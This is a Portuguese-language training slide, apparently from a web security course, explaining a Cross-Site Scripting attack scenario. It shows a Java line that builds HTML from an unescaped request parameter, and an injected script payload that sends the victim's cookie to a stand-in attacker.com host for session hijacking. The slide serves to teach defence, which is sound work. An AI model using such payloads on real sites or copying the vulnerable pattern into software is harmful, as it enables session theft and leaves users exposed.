

# Cross-Site Scripting (XSS)
Cenário de ataque:
Aplicação utiliza dados não confiáveis na geração do HTML.
(String) page += "<input name='creditcard' type='TEXT‘value='" + request.getParameter("CC") + "'>";
O atacante modifica o valor da variável CC:
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
Com isso o atacante faz o navegador da vítima enviar o cookie para ele. Desse modo  possibilitando que ele sequestre a sessão aberta do usuário.
13